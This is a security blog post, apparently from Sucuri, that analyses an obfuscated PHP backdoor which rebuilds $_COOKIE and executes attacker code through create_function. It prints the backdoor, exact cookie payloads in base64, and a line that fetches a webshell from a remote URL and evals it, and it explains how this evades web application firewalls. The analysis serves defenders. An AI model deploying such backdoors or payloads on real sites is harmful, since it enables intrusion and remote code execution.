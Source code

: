 ```yaml
---
layout: post
title: "Firewall bypass using cookies and superglobal PHP variables"
date: 2020-05-26 09:00:00 -0700
cover: /assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/cover.png
excerpt: Attackers need to send requests to their uploaded malware, but how can they do so without triggering a firewall? This is one bypass method...
authors:
  - name: Luke Leal
    title: Security Engineer, Sucuri
    url: https://twitter.com/rootprivilege
    photo: https://avatars.githubusercontent.com/sucuri-luke
---
```


When we investigate compromised websites, it's not unusual to find malicious files that have been obfuscated through encoding or encryption — however, these are not the only methods that attackers use to obfuscate and execute their malware within compromised environments.

## Obfuscation techniques using PHP variables

For example, here's an obfuscation sample found during a recent investigation which doesn't use any encoding or encryption at all.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%; white-space: pre-wrap;"> <span style="color: #40ffff">$x</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'_C'</span><span style="color: #d0d0d0">;</span><span style="color: #40ffff">$v</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'OO'</span><span style="color: #d0d0d0">;</span><span style="color: #999999; font-style: italic">/*5h*/</span><span style="color: #40ffff">$o</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'KI'</span><span style="color: #d0d0d0">;</span><span style="color: #999999; font-style: italic">/*{*Z*/</span><span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">=</span><span style="color: #ed9d13">'E'</span><span style="color: #d0d0d0">;</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*8i$7*/</span><span style="color: #d0d0d0">=</span><span style="color: #a61717; background-color: #e3d2d2">$</span><span style="color: #d0d0d0">{</span><span style="color: #40ffff">$x</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$v</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$o</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">};</span><span style="color: #6ab825; font-weight: bold">if</span><span style="color: #d0d0d0">(</span><span style="color: #24909d">isset</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*f(UZ*/</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">])){</span><span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">=</span><span style="color: #40ffff">$j</span><span style="color: #999999; font-style: italic">/*Mr*/</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'J'</span><span style="color: #d0d0d0">];</span><span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">=/*m5d*/</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'St'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'V'</span><span style="color: #d0d0d0">].</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'x'</span><span style="color: #d0d0d0">];</span><span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">=</span><span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">''</span><span style="color: #d0d0d0">,</span><span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'U'</span><span style="color: #d0d0d0">]));</span><span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">();}</span></pre></div>

Instead, this example splits a predefined PHP variable, **$_COOKIE**, into segmented strings assigned to variables before concatenating them. It also uses code comments and meaningless variable names to generate confusion, making it more difficult to logically read the code.

This obfuscation technique also uses a PHP array, allowing the attacker to pass data to the PHP script via HTTP cookies so that arbitrary code can be executed.

These techniques aren't very easy to see right off the bat, but the malicious behavior becomes more obvious when we remove the code comments, beautify the code, and split it into two sections.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%; white-space: pre-wrap;">
<span style="color: #40ffff">$x</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'_C'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$v</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'OO'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$o</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'KI'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$qv</span> <span style="color: #d0d0d0">=</span> <span style="color: #ed9d13">'E'</span><span style="color: #d0d0d0">;</span>
<span style="color: #40ffff">$j</span> <span style="color: #d0d0d0">=</span> <span style="color: #a61717; background-color: #e3d2d2">$</span><span style="color: #d0d0d0">{</span><span style="color: #40ffff">$x</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$v</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$o</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$qv</span><span style="color: #d0d0d0">};</span>
</pre></div>

The first section of the code contains the variables **$x**, **$v**, **$o**, and **$qv** which are used to contain the segmented strings. The strings are concatenated with the **.** operator in the **$j** variable to generate the **[$_COOKIE](https://www.php.net/manual/en/reserved.variables.cookies.php)** PHP predefined variable.

This is a crucial part of the malware. The attacker simply places their predefined PHP functions and data into HTTP cookies, which are then passed along to the script in their HTTP request.

## Malicious data in HTTP requests

Here's how attackers are able to pass along data in their malicious code:

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #6ab825; font-weight: bold">if</span> <span style="color: #d0d0d0">(</span><span style="color: #24909d">isset</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">]))</span>
<span style="color: #d0d0d0">{</span>
<span style="color: #40ffff">$oo</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'Q'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'J'</span><span style="color: #d0d0d0">];</span>
<span style="color: #40ffff">$tj</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'St'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'V'</span><span style="color: #d0d0d0">]</span> <span style="color: #d0d0d0">.</span> <span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'x'</span><span style="color: #d0d0d0">];</span>
<span style="color: #40ffff">$pd</span> <span style="color: #d0d0d0">=</span> <span style="color: #40ffff">$oo</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">''</span><span style="color: #d0d0d0">,</span> <span style="color: #40ffff">$tj</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$j</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'U'</span><span style="color: #d0d0d0">]));</span>
<span style="color: #40ffff">$pd</span><span style="color: #d0d0d0">();</span>
<span style="color: #d0d0d0">}</span>
</pre></div>

This sample starts off with an **if** statement, which checks for the existence of the HTTP cookie with the name **Q**.

If the incoming HTTP request does not contain this cookie, then the PHP code simply stops there.

If the request **does** contain a **Q** cookie, the code creates three new variables **$oo**, **$tj**, and **$pd**. These variables are produced from segmented data provided by the attacker's HTTP cookies **Q**, **J**, **St**, **V**, **x**, and **U**, which are concatenated to form executable code.

Since the attacker is responsible for supplying these variable definitions, the script offers a lot of flexibility to define whatever code they want to execute.

In this particular example, the format and execution of the **$pd** variable indicates that bad actors are leveraging the PHP function **[create_function](https://www.php.net/manual/en/function.create-function)** to form their requests.

### The cookie assembly line

The attacker uses a number of superglobal PHP variables to construct the data. Strings stored in cookies **Q** and **J** are assembled using **create_function** and assigned to the **$oo** variable.

The **$tj** variable is defined by the attacker's data found within the HTTP cookies **St**, **V**, and **x**. Unlike the **$oo** variable,, the **$tj** variable offers a lot more flexibility since it isn't limited to the single PHP function **create_function**. The attacker can essentially use whatever they like for the **$tj** variable.

One important item to keep in mind is that whatever function the attacker chooses to use here will have to execute on the data provided by the final cookie — **U**. For this example, I chose to use the function **base64_decode** which means that the **U** cookie will need to be encoded with [base64](https://en.wikipedia.org/wiki/Base64) to properly execute.

So far, we've identified a value for each cookie except for the last one, **U**.

<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">Q</span><span style="color: #d0d0d0">=create_;</span>
<span style="color: #40ffff">J</span><span style="color: #d0d0d0">=function;</span>
<span style="color: #40ffff">St</span><span style="color: #d0d0d0">=base;</span>
<span style="color: #40ffff">V</span><span style="color: #d0d0d0">=</span><span style="color: #d0d0d0">64</span><span style="color: #d0d0d0">_;</span>
<span style="color: #40ffff">x</span><span style="color: #d0d0d0">=decode;</span></pre></div>

Cookie values don't have to exactly match the example shown above, but when concatenated they **do** need to match the name of the intended PHP function.

For example, an attacker could define **Q** to be **creat** and **J** to be **e_function** — when concatenated, these two variables will end up being **create_function**, which they can then use to create a new function for execution.

### Arbitrary PHP code submission

To complete the obfuscation, we have just a single HTTP cookie left to define — **U**.

The data assigned to this **U** variable is the PHP code created by **create_function** and executed by **$pd()**. This cookie is what grants the attacker so much flexibility, allowing them to store any malicious PHP code that they want to execute.

For this scenario, I wanted to demonstrate how an attacker can submit arbitrary code passed in their HTTP request to the malicious file, so I chose to use the following PHP snippet.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #6ab825; font-weight: bold">eval</span><span style="color: #d0d0d0">(</span><span style="color: #24909d">base64_decode</span><span style="color: #d0d0d0">(</span><span style="color: #40ffff">$_COOKIE</span><span style="color: #d0d0d0">[</span><span style="color: #ed9d13">'cmd'</span><span style="color: #d0d0d0">]));</span></pre></div>

It's worth mentioning that HTTP cookies are generally limited to 4,096 characters or less, so copying and pasting an entire PHP webshell's source code into the **U** character wouldn't work. And don't forget that the **U** cookie value will need to be base64 encoded so that the **$tj** variable can successfully run its **base64_decode** function on **U**'s value.

When base64 encoded, the **U** cookie looks like this.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">U</span><span style="color: #d0d0d0">=ZXZhbChiYXNlNjRfZGVjb2RlKCRfQ09PS0lFWydjbWQnXSkpOw==</span>
</pre></div>
Okay, we now have all of the HTTP cookie values defined. When the variables are replaced with the actual concatenated values, the executed PHP code looks like this.

![alt_text](/engineering/assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/php-code.png "PHP Code")

The only thing left for the attacker to do is decide on the arbitrary base64 encoded PHP that they want to provide in their HTTP request. This is accomplished by defining the **cmd** cookie value.

### Base64 encoded "cmd" cookie

For this scenario, I chose to use the following code to load a PHP webshell from a third party URL into the PHP process on the infected website. This is performed without actually writing the PHP webshell to a file on the disk.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">$a</span> <span style="color: #d0d0d0">=</span> <span style="color: #24909d">file_get_contents</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">'https://[redacted].com/files/shell.txt'</span><span style="color: #d0d0d0">);</span><span style="color: #6ab825; font-weight: bold">eval</span><span style="color: #d0d0d0">(</span><span style="color: #ed9d13">'?>'</span><span style="color: #d0d0d0">.</span><span style="color: #40ffff">$a</span><span style="color: #d0d0d0">);</span>
</pre></div>

When this PHP code is then base64 encoded and added as the value for the **cmd** cookie, it will look like this.
<div style="background: #202020; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">
<span style="color: #40ffff">cmd</span><span style="color: #d0d0d0">=JGEgPSBmaWxlX2dldF9jb250ZW50cygnaHR0cHM6Ly9bcmVkYWN0ZWRdL2ZpbGVzL3NoZWxsLnR4dCcpO2V2YWwoJz8+Jy4kYSk7</span></pre></div>

## Loading PHP webshells from third-party sources

Now that the attacker has defined all of the **Q**, **J**, **St**, **V**, **x**, and **U** cookies with their proper values along with the arbitrary code that they want executed, the last thing left to do is to send a very specific request to the malicious file found at the beginning of the post.

When the attacker's specially crafted HTTP request is sent to the malicious file, it executes everything provided by the HTTP request and its cookies, which in turn loads a PHP webshell from a remote third party source!

![alt_text](/engineering/assets/images/firewall-bypass-using-cookies-and-superglobal-PHP-variables/php-shell.png "PHP Shell")

### Detecting legitimate and malicious requests

Attackers are using this obfuscation method to bypass any security controls that inspect incoming HTTP requests — for example, the controls found in web application firewalls. By passing the malicious PHP code through base64 encoded HTTP cookies instead of **GET** or **POST** parameters, the attacker can bypass web application firewalls that don't inspect cookie contents.

It's much more common for a legitimate request from a visitor to contain a cookie that is base64 encoded than it is for a visitor to be submitting base64 encoded URL parameters in an HTTP request. As a result, this technique is less suspicious and has a higher success rate — malicious requests have a lower chance of being blocked since they contain 0 parameters in the URL and exist solely within the cookie encoded values.